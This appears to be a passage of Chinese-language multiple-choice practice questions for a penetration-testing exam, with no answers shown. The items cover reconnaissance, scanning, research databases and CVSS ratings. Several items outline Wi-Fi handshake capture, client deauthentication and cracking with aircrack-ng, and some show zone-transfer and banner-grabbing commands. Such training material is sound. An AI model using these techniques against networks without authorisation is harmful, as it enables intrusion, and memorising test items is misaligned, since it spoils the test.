### 44. 你正在使用 Telnet 客户端连接到一台 Web 服务器，试图指纹识别其上运行的 Web 服务器软件的类型和版本。这个过程叫什么？

1.  Banner grabbing（抓取横幅/标志信息）
2.  扫描
3.  利用
4.  破解

### 45. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：



从这些信息中你能了解到关于该设备的什么情况？（选择两项。）

1.  它是一台路由器。
2.  它是一台网络打印机。
3.  它是一台 DNS 服务器。
4.  它正在运行 Web 服务器。
5.  它已加入 Active Directory 域。

### 46. 你正在执行灰盒渗透测试。你想使用 Linux 笔记本电脑上的 Telnet 客户端抓取目标网络上 Web 服务器的横幅信息。目标 Web 服务器的 IP 地址为 `10.0.0.1`。你会在 Shell 提示符下使用哪条命令来执行此操作？

1.  `telnet 10.0.0.1:80`
2.  `telnet 10.0.0.1:403`
3.  `telnet 10.0.0.1 80`
4.  `telnet 10.0.0.1 403`

### 47. 你正在执行灰盒渗透测试。你使用 Linux 笔记本电脑上的 Telnet 客户端抓取目标网络上 Web 服务器的横幅信息。结果如下所示：



从这些信息中你能了解到关于该 Web 服务器的什么情况？（选择两项。）

1.  Web 服务器运行在 Linux 之上。
2.  Web 服务器运行在 Windows Server 操作系统之上。
3.  它正在运行 Apache。
4.  它正在运行 IIS。
5.  该设备很可能是一台安全设备。

### 48. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：




## 从这些信息中你能了解到关于该设备的什么情况？

1. 它极有可能是一台 Windows Server 机器。
2. 它极有可能是一台 Windows 工作站。
3. 它极有可能是一台 Windows 域控制器。
4. 它极有可能是一台 iPhone 移动设备。

## 49. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：



从这些信息中你能了解到关于该设备的什么情况？

1. 它极有可能是一台 Cisco 路由器。
2. 它极有可能是一台 Linux 工作站。
3. 它极有可能是一台 Windows 域控制器。
4. 它极有可能是一台 Android 移动设备。

## 50. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 实用程序枚举并指纹识别目标组织某个子网上的设备。有个设备特别引起了你的注意。输出如下所示：



从这些信息中你能了解到关于该设备的什么情况？（选择两项。）

1. 它极有可能是一台 Cisco 路由器。
2. 它极有可能是一台 Linux 工作站。
3. 它正在运行 DNS 服务器。
4. 它正在运行 Web 服务器。
5. 它极有可能是一台 Windows Server 机器。

## 51. 作为灰盒渗透测试期间信息收集过程的一部分，你需要对目标组织的内部 Web 服务器执行证书检查。你可以在 Kali Linux 笔记本电脑上使用哪个实用程序来执行此操作？

1. `sslyze`
2. `Zenmap`
3. `nmap`
4. `hping`

## 52. 在灰盒渗透测试期间，你已在 Kali Linux 笔记本电脑上使用某个实用程序检查目标组织内部 Web 服务器使用的证书。输出如下所示：



从该输出中你能了解到什么？（选择两项。）

1. Web 服务器支持 SSLv2。
2. Web 服务器支持 TLSv1_1。

### TLS 版本支持

3. Web 服务器支持 `TLSv1_2`。
4. Web 服务器支持 `TLSv1`。
5. Web 服务器支持 `SSLv3`。

---

### 53. 抓包工具选择（灰盒测试，有线网络）

在灰盒渗透测试的信息收集阶段，你需要在有线网络上捕获数据包。你可以在笔记本电脑上使用哪些工具来完成此任务？（选择两项。）

1. `tcpdump`
2. `nmap`
3. `Wireshark`
4. `Zenmap`
5. `aircrack-ng`

---

### 54. 破解 Wi-Fi 加密工具（黑盒测试）

在黑盒渗透测试的信息收集阶段，你需要监听目标设施发出的射频信号，并尝试捕获其无线网络的数据。在执行此操作之前，你必须破解 Wi-Fi 网络使用的加密。你停在组织的停车场。你可以在 Linux 笔记本电脑上使用哪个工具来完成此操作？

1. `aircrack-ng`
2. `tcpdump`
3. `Wireshark`
4. `nmap`

---

### 55. 无线网卡配置模式（黑盒测试）

在黑盒渗透测试的信息收集阶段，你需要监听目标设施发出的射频信号，并尝试捕获其无线网络的数据。你停在组织的停车场。为了执行此操作，笔记本电脑中的无线网络接口必须如何配置？

1. 设置为监听模式。
2. 设置为混杂模式。
3. 设置为捕获模式。
4. 设置为 IEEE 802.1x 模式。

---

### 56. 捕获认证握手工具

在黑盒渗透测试的信息收集阶段，你需要监听目标设施发出的射频信号，并尝试捕获其无线网络的数据。你停在组织的停车场。你想使用 `aircrack-ng` 破解 Wi-Fi 网络使用的加密。为了完成此任务，你首先需要捕获认证握手。你应该在笔记本电脑上运行哪个工具来执行此操作？

1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

---

### 57. 解除认证客户端工具

在黑盒渗透测试的信息收集阶段，你需要监听目标设施发出的射频信号，并尝试捕获其无线网络的数据。你已经捕获了认证握手。接下来你需要解除无线客户端的认证，以便开始捕获数据。你应该在笔记本电脑上运行哪个工具来执行此操作？

1. `airodump-ng`
2. `aireplay-ng`
3. `aircrack-ng`
4. `nmap`

---

### 58. 有线网卡配置模式（灰盒测试）

作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。为了完成此任务，笔记本电脑中的有线网络接口必须如何配置？

1. 设置为监听模式。
2. 设置为混杂模式。
3. 设置为捕获模式。
4. 设置为 IEEE 802.1x 模式。

---

### 59. 交换机环境下抓包限制原因

作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。你已将笔记本电脑中的网络接口配置为接受网络介质上传输的所有帧，并安装了 `Wireshark`。然而，当你运行 `Wireshark` 时，你只能看到专门发送给你笔记本电脑的帧。为什么会发生这种情况？

1. 笔记本电脑上的主机防火墙阻止了所有其他帧。
2. 交换机上启用了 MAC 地址过滤。
3. 网络使用集线器。
4. 网络使用交换机。

---

### 60. 解决交换机环境抓包问题

作为灰盒渗透测试的一部分，你需要在有线网络上捕获数据包。你已将笔记本电脑中的网络接口配置为接受网络介质上传输的所有帧，并安装了 `Wireshark`。然而，当你运行 `Wireshark` 时，你只能看到专门发送给你笔记本电脑的帧。如何解决此问题？

1. 禁用笔记本电脑上的主机防火墙。
2. 禁用交换机上的 MAC 地址过滤。
3. 将网络交换机替换为集线器。
4. 将笔记本电脑连接到交换机的镜像端口。

---

### 61. 无法获取源代码时的分析方法（灰盒测试）

你正在为客户执行灰盒渗透测试。目标组织的员工使用一个内部开发的应用程序来完成日常工作。它经常崩溃，你怀疑它是基于编写糟糕或过时的代码。你想分析该应用程序的源代码，看看它是否包含可被利用的弱点。然而，测试的交战规则不允许访问代码。你应该怎么做？

1. 反编译应用程序的可执行文件。
2. 调试应用程序的可执行文件。
3. 在员工使用应用程序时捕获并分析其生成的网络流量。
4. 使用交换机上的服务质量 (QoS) 设置优先处理应用程序生成的网络流量。

---

### 62. 反编译结果为汇编代码的原因

你正在为客户执行灰盒渗透测试。你想针对组织员工每天使用的一个内部应用程序。为了识别代码中的弱点，你决定反编译该应用程序的可执行文件。你有一些 `C++` 编程经验，因此你觉得审查反编译过程揭示的源代码很得心应手。然而，反编译后，你发现你看不懂生成的源代码文件的内容。为什么会发生这种情况？

1. 你需要将输出转换为 `C++`。
2. 反编译器通常生成汇编级代码。
3. 运行反编译器时你忘记使用了 `–C` 选项。
4. 该应用程序编写得太糟糕，以至于反编译器无法重现源代码。

---

### 63. 分析应用运行时行为（灰盒测试）

你正在为客户执行灰盒渗透测试。目标组织的员工使用一个内部开发的应用程序来完成日常工作。它经常崩溃，你怀疑它是基于编写糟糕或过时的代码。你想分析典型最终用户运行该应用程序时的执行情况，以查看它是否包含可被利用的弱点。你应该怎么做？

1. 反编译应用程序的可执行文件。
2. 调试应用程序的可执行文件。
3. 在员工使用应用程序时捕获并分析其生成的网络流量。
4. 使用交换机上的服务质量 (QoS) 设置优先处理应用程序生成的网络流量。

---

### 64. CERT 简介

哪个开源研究资源由美国政府维护，并提供当前报告的最频繁、影响最大的安全事件类型的动态摘要？

1. `CERT`
2. `JPCERT`
3. `CVE`
4. `CAPEC`

---

### 65. JPCERT 简介

哪个开源研究资源由日本政府维护，并提供当前安全警报和通报的动态摘要？

1. `CERT`
2. `JPCERT`
3. `CWE`
4. `CAPEC`

---

### 66. NVD 简介

哪个开源研究资源由美国政府国家标准技术研究院维护，并提供当前安全情况的摘要？

1. `CERT`
2. `Full Disclosure`
3. `CVE`
4. `NVD`

---

### 67. CVE 简介（厂商漏洞数据库）

哪个开源研究资源是一个社区开发的通用数据库，供全球行业供应商提交与其产品相关的漏洞和暴露？

1. `CERT`
2. `JPCERT`
3. `CVE`
4. `CAPEC`

---

### 68. CWE 简介（通用软件弱点）

哪个开源研究资源是一个社区开发的通用数据库，包含与一般软件相关的漏洞和暴露，而不是特定供应商的产品？

1. `CERT`
2. `Full Disclosure`
3. `CWE`
4. `CAPEC`

---

### 69. CAPEC 简介（攻击模式）

哪个开源研究资源是一个社区开发的通用数据库，包含常用网络攻击模式的描述？

1. `CERT`
2. `CWE`
3. `CVE`
4. `CAPEC`

---

### 70. Full Disclosure 邮件列表

哪个开源研究资源由生产 `nmap` 实用程序的组织发布？

1. `CERT`
2. `Full Disclosure`
3. `CVE`
4. `NVD`

## 71. 灰盒渗透测试中的漏洞研究

你正在执行灰盒渗透测试。在枚举和指纹识别过程中，你发现目标组织网络上的一个内部网站运行在非常旧的 IIS 版本上。你需要查明是否存在与该旧版 Web 服务器相关的可利用漏洞。可以使用哪个开源研究来源？

1. **CVE**
2. **Full Disclosure**
3. **NVD**
4. **以上皆是**

## 72. Adobe Photoshop 安全更新研究

你听说 Adobe 刚刚发布了一个安全更新，修复了近期在 Photoshop 中发现的漏洞。可以使用哪个开源研究来源来了解有关该更新及其修复漏洞的更多信息？

1. **CERT**
2. **Full Disclosure**
3. **CAPEC**
4. **NVD**

## 73. 物理安全漏洞利用研究

你听说一种新的物理安全漏洞利用正在流行，攻击者使用一种称为 **bump key** 的特殊钥匙。哪个开源研究来源最可能包含有关该漏洞利用工作原理的信息？

1. **CAPEC**
2. **Full Disclosure**
3. **NVD**
4. **CVE**

## 74. 按严重程度对漏洞排名

哪个开源研究来源按严重程度对安全漏洞进行排名？

1. **CERT**
2. **Full Disclosure**
3. **CVE**
4. **NVD**

## 75. 旧版 Windows Server 漏洞研究

在灰盒渗透测试的枚举和指纹识别阶段，你发现目标组织的文档和培训部门将文件存储在一台仍处于 SP2 补丁级别的 Windows Server 2003 系统上，因为没人费心去更新它。你想调查利用这台旧服务器的方法。可以使用哪个开源研究来源？

1. **CVE**
2. **CAPEC**
3. **CWE**
4. **以上皆非**

## 76. 内部系统管理员视角的扫描

哪种类型的漏洞扫描最接近内部系统管理员对网络的视角？

1. **凭证扫描**
2. **非凭证扫描**
3. **发现扫描**
4. **隐身扫描**

## 77. 外部黑客视角的扫描

哪种类型的漏洞扫描最接近外部黑客对网络的视角？

1. **凭证扫描**
2. **非凭证扫描**
3. **完整扫描**
4. **合规性扫描**

## 78. 识别漏洞最多的扫描

哪种类型的漏洞扫描通常能识别出最多的漏洞？

1. **凭证扫描**
2. **非凭证扫描**
3. **发现扫描**
4. **隐身扫描**

## 79. 识别漏洞最少的扫描

哪种类型的漏洞扫描通常识别出的漏洞数量最少？

1. **凭证扫描**
2. **非凭证扫描**
3. **完整扫描**
4. **合规性扫描**

## 80. Ping 扫描的扫描类型

Ping 扫描是哪种类型漏洞扫描的示例？

1. **发现扫描**
2. **完整扫描**
3. **隐身扫描**
4. **合规性扫描**

## 81. 对目标网络侵入性最小的扫描

哪种类型的漏洞扫描对目标网络的侵入性最小？

1. **发现扫描**
2. **完整扫描**
3. **隐身扫描**
4. **合规性扫描**

## 82. 最易被 IPS/IDS 检测到的扫描

哪种类型的漏洞扫描最有可能被入侵防御系统（IPS）或入侵检测系统（IDS）检测到？

1. **发现扫描**
2. **完整扫描**
3. **隐身扫描**
4. **合规性扫描**

## 83. 最难被 IPS/IDS 检测到的扫描

哪种类型的漏洞扫描最不可能被入侵防御系统（IPS）或入侵检测系统（IDS）检测到？

1. **发现扫描**
2. **完整扫描**
3. **隐身扫描**
4. **合规性扫描**

## 84. 防御者而非渗透测试员常用的扫描

哪种类型的漏洞扫描更可能被防御者而非渗透测试员使用？

1. **发现扫描**
2. **完整扫描**
3. **隐身扫描**
4. **合规性扫描**

## 85. 发送 SYN 数据包枚举主机的扫描

哪种类型的漏洞扫描向网络主机发送 SYN 数据包以枚举它们？

1. **发现扫描**
2. **完整扫描**
3. **隐身扫描**
4. **合规性扫描**

## 86. 操纵 TCP 三次握手的扫描类型

你在灰盒渗透测试期间执行漏洞扫描。扫描器操纵 TCP 三次握手以枚举网络主机。你正在执行哪种类型的扫描？

1. **发现扫描**
2. **完整扫描**
3. **隐身扫描**
4. **合规性扫描**

## 87. TCP 三次握手操纵的后续步骤

你在灰盒渗透测试期间执行漏洞扫描。扫描器操纵 TCP 三次握手以枚举网络主机。首先，扫描器向目标主机发送一个 SYN 数据包。主机向扫描器响应一个 SYN-ACK 数据包。接下来会发生什么？

1. 扫描器向目标主机响应一个 ACK 数据包。
2. 目标主机向扫描器发送一个 ACK 数据包。
3. 扫描器向目标主机发送一个 ICMP Echo Request 数据包。
4. 扫描器向目标主机响应一个 RST 数据包。

## 88. 隐身扫描与 IDS 的交互

你正在执行灰盒渗透测试。你使用隐身扫描对内部网络执行漏洞扫描。目标网络安装了 IDS 设备。可能会发生什么？

1. IDS 将检测到隐身扫描。
2. 隐身扫描将不被 IDS 检测到。
3. IDS 将阻止来自你扫描系统的流量。
4. 隐身扫描将与目标网络上的每个主机建立完整的 TCP 连接。

## 89. 结果最准确的扫描类型

哪种类型的漏洞扫描产生的结果最准确？

1. **发现扫描**
2. **完整扫描**
3. **隐身扫描**
4. **非凭证扫描**

## 90. PCI-DSS 渗透测试的扫描类型

客户聘请你执行 PCI-DSS 渗透测试。你在此测试中可能会执行哪种漏洞扫描？

1. **发现扫描**
2. **完整扫描**
3. **隐身扫描**
4. **合规性扫描**

## 91. 白盒测试网络枚举信息（主机/网络/域）

你作为白盒渗透测试的一部分扫描客户的内部网络。你的目标是枚举网络。你可能在枚举过程中包含哪种信息？

1. **主机**
2. **网络**
3. **域**
4. **以上皆是**

## 92. 白盒测试网络枚举信息（账户/组/共享）

你作为白盒渗透测试的一部分扫描客户的内部网络。你的目标是枚举网络。你可能在枚举过程中包含哪种信息？

1. **用户账户**
2. **组**
3. **共享网络文件夹**
4. **以上皆是**

## 93. 白盒测试网络枚举信息（Web/应用/服务/令牌）

你作为白盒渗透测试的一部分扫描客户的内部网络。你的目标是枚举网络。你可能在枚举过程中包含哪种信息？

1. **网页**
2. **应用程序**
3. **服务**
4. **令牌**
5. **以上皆是**

## 94. 灰盒测试规则：无预警、避免检测、最大信息收集

你需要作为灰盒渗透测试的一部分执行漏洞扫描。交战规则规定：内部系统管理员不得收到扫描时间的任何预警，你必须避免被检测到，且扫描应收集尽可能多的信息。你应该怎么做？

1. 运行完整漏洞扫描。
2. 运行隐身扫描。
3. 限制扫描带宽至最小。
4. **以上皆非。**

## 95. 灰盒测试规则：无预警、避免检测、最大信息收集（备选方案）

你需要作为灰盒渗透测试的一部分执行漏洞扫描。交战规则规定：内部系统管理员不得收到扫描时间的任何预警，你必须避免被检测到，且扫描应收集尽可能多的信息。你应该怎么做？

1. 运行合规性扫描。
2. 安排扫描在清晨运行。
3. 运行非凭证扫描。
4. **以上皆非。**

## 96. 黑盒测试中凭证扫描的困境

你正在为客户执行黑盒渗透测试。交战规则要求你执行凭证漏洞扫描，但你未获得管理员登录信息。你可以怎么做？

1. 取消测试。交战规则与测试类型不匹配。
2. 要求客户发送管理员凭证以运行扫描。
3. 实施鱼叉式网络钓鱼攻击，诱骗内部用户泄露其凭证。
4. 跳过枚举和指纹识别过程。

## 97. 黑盒测试中 Web 服务器扫描时间限制

你正在为客户执行黑盒渗透测试。交战规则要求你对组织的众多面向公众的 Web 服务器执行漏洞扫描。在测试范围内，你只有几个小时的时间来执行扫描。你应该怎么做？

1. 跳过 Web 服务器的扫描。
2. 对每台 Web 服务器执行完全扫描。


### 3. 将漏洞扫描限制在 Web 服务器常用的协议上。

### 4. 对 Web 服务器执行凭证扫描。

## 98. 您正在为客户执行 PCI-DSS 合规性渗透测试。就网络拓扑而言，您应该如何在此测试期间运行漏洞扫描？（选择两项。）

1.  从内部网络内部
2.  使用完全漏洞扫描
3.  从组织防火墙外部的位置
4.  使用隐蔽漏洞扫描
5.  仅查看前 20 个端口和协议

## 99. `nmap` 命令中哪个选项用于限制漏洞扫描查询的速率？

1.  `-T<n>`
2.  `-p`
3.  `-F`
4.  `-p-`

## 100. 您正在执行黑盒渗透测试。您需要从组织防火墙外部的外部网络位置使用 `nmap` 运行漏洞扫描。该组织使用低带宽 T1 线路连接互联网。您应该如何配置扫描？

1.  对 `nmap` 命令使用 `–T5` 选项。
2.  对 `nmap` 命令使用 `–T4` 选项。
3.  对 `nmap` 命令使用 `–T2` 选项。
4.  对 `nmap` 命令使用 `–T0` 选项。

## 101. 您正在执行灰盒渗透测试。您需要在一个脆弱的内部服务器系统上运行漏洞扫描？您应该如何配置扫描？

1.  对 `nmap` 命令使用 `–T5` 选项。
2.  对 `nmap` 命令使用 `–T3` 选项。
3.  对 `nmap` 命令使用 `–T2` 选项。
4.  对 `nmap` 命令使用 `–T0` 选项。

## 102. 当在运行容器内网络应用程序的组织中执行漏洞扫描时，以下哪些是您可能需要考虑的问题？（选择两项。）

1.  运行在容器环境中的应用程序可能无法被传统漏洞扫描检测到。
2.  容器宿主机可能会减慢漏洞扫描速度。
3.  扫描容器宿主机可能会导致其容器中运行的应用程序崩溃。
4.  扫描容器宿主机可能导致其崩溃，从而使关键网络应用程序脱机。
5.  与容器宿主机基础操作系统相关的漏洞可能会被其容器继承。

## 103. 以下哪种应用程序扫描技术是通过审查应用程序的源代码来执行的？

1.  静态代码分析
2.  动态代码分析
3.  模糊测试
4.  以上都不是

## 104. 以下哪些应用程序扫描技术是在运行中的应用程序上执行的？（选择两项。）

1.  静态代码分析
2.  动态代码分析
3.  模糊测试
4.  源代码分析

## 105. 以下哪种应用程序扫描技术是通过向应用程序的输入发送随机、意外或无效数据来查看其响应方式来执行的？

1.  静态代码分析
2.  模糊测试
3.  源代码分析
4.  以上都不是

## 106. 以下哪项是非传统资产的示例？

1.  数据库服务器
2.  路由器
3.  支持 Web 的电视显示器
4.  内容过滤设备

## 107. 以下哪项是非传统资产的示例？

1.  邮件服务器
2.  计算机控制的制造设备
3.  无线接入点
4.  一体式台式机

## 108. 作为黑盒渗透测试信息收集阶段的一部分，您需要对目标组织的域执行 DNS 区域传送。您可以使用以下哪些命令来执行此操作？（选择两项。）

1.  `dig axfr @nameserver target_domain`
2.  `host -t axfr target_domain nameserver`
3.  `nslookup –type=ns target_domain`
4.  `nmap get-domain-transfer target_domain`

## 109. 您正在执行灰盒渗透测试。您想构建一个自定义数据包来测试服务器的响应方式，并查看它返回什么信息。您可以使用哪个实用程序来执行此操作？

1.  `hping`
2.  `ping`
3.  `nmap`
4.  `Wireshark`

## 110. 您正在执行黑盒渗透测试。您已使用 `theHarvester` 枚举了目标组织的大量用户电子邮件地址。您可以用这些信息做什么？（选择两项。）

1.  实施网络钓鱼攻击。
2.  发送垃圾邮件。
3.  枚举内部用户账户。
4.  执行 DNS 区域传送。

## 111. 在灰盒渗透测试期间，您对网络上发现的一个系统运行 `nmap` 扫描。您发现 TCP 端口 139、443 和 3389 是开放的。该系统最有可能运行什么操作系统？

1.  iOS
2.  Windows
3.  Linux
4.  Android

## 112. 您正在执行灰盒渗透测试。您对一台主机运行漏洞扫描，发现 TCP 端口 8080 和 8443 是开放的。根据此信息，您可以推断出这台主机的什么情况？

1.  它可能是一台 DNS 服务器。
2.  它可能是一台域控制器。
3.  它可能是一台文件服务器。
4.  它可能是一台 Web 服务器。

## 113. Kimberly 正在运行灰盒渗透测试。目标网络使用 10 网 IP 寻址方案，带有 8 位子网掩码 (10.0.0.0/8)。她需要对网络上的每台主机运行漏洞扫描。她将 `nmap` 加载到连接到同一被扫描网段的笔记本电脑上，并使用了 `–T0` 选项。

在这种情况下她做错了什么？

1.  `nmap` 实用程序不适用于私有 IP 寻址方案。
2.  `nmap` 实用程序应从未连接到被扫描同一网段的主机上运行。
3.  `–T0` 选项将导致在如此大的子网上扫描花费过长的时间。
4.  使用台式机代替笔记本电脑可以提高扫描速度。

## 114. Jessica 正在运行黑盒渗透测试。她需要找出目标组织的域名注册商是谁。她还想了解该组织的地址和电话号码。她应该使用哪个实用程序？

1.  `whois`
2.  `theHarvester`
3.  `dig`
4.  `nslookup`

## 115. Brittany 正在运行黑盒渗透测试。她想对目标组织的内部网络运行漏洞扫描。她应该怎么做？

1.  请求目标组织许可她现场执行扫描。
2.  请求目标组织授予她内部网络的 VPN 访问权限。
3.  尝试攻破一台内部主机并将其作为跳板。
4.  在外部运行扫描。

## 116. Natasha 正在运行灰盒渗透测试。她最初使用 ping 扫描枚举了网络，发现了一台内部 Web 服务器、一台域控制器、一台路由器以及生产车间使用的多台 SCADA 设备。其中哪些设备可能会被更密集的漏洞扫描所干扰？（选择两项。）

1.  Web 服务器
2.  域控制器
3.  路由器
4.  SCADA 设备

## 117. Joshua 正在运行灰盒渗透测试。以下哪项最不可能影响他在测试期间何时运行漏洞扫描？

1.  内部 IT 人员的可用性
2.  法规要求
3.  硬件限制
4.  组织网络上的高峰流量时段

## 118. Austin 正在执行白盒渗透测试...

Austin 正在执行白盒渗透测试。目标组织严重依赖一个由内部程序员开发的应用程序。测试范围规定他可以访问该应用程序的源代码。Austin 拥有丰富的编程背景，因此他逐行分析代码以查找漏洞。此场景中发生的是哪种应用程序分析？

1.  模糊测试
2.  静态代码分析
3.  动态代码分析
4.  启发式代码分析

## 119. Tyson 正在执行灰盒渗透测试...

Tyson 正在执行灰盒渗透测试。目标组织严重依赖一个由内部程序员开发的应用程序。他运行该应用程序，然后使用一个工具向应用程序的输入发送随机的、意外的数据，并分析其响应方式。此场景中发生的是哪种应用程序分析？

1.  模糊测试
2.  静态代码分析
3.  启发式代码分析
4.  变异分析

## 120. Jessica 正在执行白盒渗透测试...

Jessica 正在执行白盒渗透测试。她需要在目标组织的客户数据库服务器上运行侵入式漏洞扫描。她应该怎么做？

1.  在高峰营业时间对实时系统运行扫描。
2.  在典型工作日的上午 9 点左右运行扫描。
3.  先在实验室环境中运行测试扫描。
4.  跳过对该系统的扫描。

## 121. 在执行黑盒渗透测试时...

在执行黑盒渗透测试时，你注意到目标组织有一台面向公众的服务器，其 SSL/TLS 安全证书已过期。从这一事实你能推断出什么？

1.  该服务器的通信可以被解密。
2.  该服务器已被攻击者攻破。
3.  内部系统管理员未关注该服务器。
4.  存储在服务器上的数据可以被解密。

## 122. 你正在执行灰盒渗透测试...

你正在执行灰盒渗透测试。你刚刚完成了对目标网络上所有主机的大量漏洞扫描。现在你需要对所有扫描过的设备进行分类。以下哪项是执行资产分类的有效方式？

1.  按操作系统
2.  按资产价值
3.  按发现的漏洞数量
4.  按漏洞严重性
5.  以上皆是

## 123. 你正在执行黑盒渗透测试...

你正在执行黑盒渗透测试。你正在裁决漏洞扫描的结果。经进一步检查，你发现扫描器在目标组织的 Web 服务器上识别出的最严重漏洞之一实际上并不存在。以下哪项可以解释发生了什么？

1.  扫描器产生了误报。
2.  互联网上的某个攻击者检测到你的扫描并隐藏了该漏洞。
3.  内部管理员检测到你的扫描并修复了该漏洞。
4.  服务器感染了恶意软件，导致异常的扫描结果。

## 124. 你正在执行灰盒渗透测试...

你正在执行灰盒渗透测试，并刚刚完成漏洞扫描、结果分类和数据裁决。现在你需要在进入测试的下一阶段之前确定漏洞的优先级。以下哪项可能构成最高优先级的待利用漏洞？（选择两项。）

1.  域控制器运行在旧版 Windows Server 上，且缺少多个关键安全更新。
2.  用户的桌面系统缺少 Windows 功能更新。
3.  用户的桌面系统运行的是旧版 Ubuntu Linux。
4.  数据库服务器易受 WannaCry 漏洞利用。

## 125. 你正在对漏洞扫描期间发现的漏洞进行优先级排序...

你正在对漏洞扫描期间发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统 (CVSS) 得分为 3.8。该漏洞属于哪个风险类别？

1.  低
2.  中
3.  高
4.  严重

## 126. 你正在对漏洞扫描期间发现的漏洞进行优先级排序...

你正在对漏洞扫描期间发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统 (CVSS) 得分为 10。该漏洞属于哪个风险类别？

1.  低
2.  中
3.  高
4.  严重

## 127. 你正在对漏洞扫描期间发现的漏洞进行优先级排序...

你正在对漏洞扫描期间发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统 (CVSS) 得分为 5.3。该漏洞属于哪个风险类别？

1.  低
2.  中
3.  高
4.  严重

## 128. 你正在对漏洞扫描期间发现的漏洞进行优先级排序...

你正在对漏洞扫描期间发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统 (CVSS) 得分为 7.2。该漏洞属于哪个风险类别？

1.  低
2.  中
3.  高
4.  严重

## 129. 你正在评估漏洞扫描的结果...

你正在评估漏洞扫描的结果，并注意到一个共同主题。你发现目标组织几乎所有的 Windows Server 2012 R2 系统都缺少相同的关键安全更新。你应该怎么做？（选择两项。）

1.  停止渗透测试并立即通知客户。
2.  调查这是否会产生任何可供你利用的漏洞。
3.  在最终渗透测试报告中记录缺失更新的共同主题。
4.  在服务器上安装缺失的更新。
5.  在你的渗透测试最佳实践博客上记录缺失的更新。

## 130. 你正在评估漏洞扫描的结果...

你正在评估漏洞扫描的结果，并做出一个观察。你发现该组织部署了许多 Linux 服务器，它们仍在运行 2008 年发行的发行版。你应该怎么做？

1.  将旧版 Linux 服务器中存在的漏洞映射到可能的利用代码。
2.  停止渗透测试并立即通知客户。
3.  在邮件中建议客户升级服务器。
4.  为客户升级服务器。

## 131. 你正在评估漏洞扫描的结果...

你正在评估漏洞扫描的结果，注意到许多网络设备（如路由器和接入点）仍在使用默认的管理用户名和密码。此信息可轻松在互联网上找到，并代表一个重大的安全漏洞。你应该怎么做？（选择两项。）

1.  建议客户采用更改所有默认用户名和密码的最佳实践。
2.  利用正在使用默认用户名和密码的设备。
3.  为客户手动更改默认用户名和密码。
4.  在流行的在线网络安全论坛上发布客户仍在使用默认用户名和密码的事实。

## 132. 你刚刚完成了对目标网络的扫描...

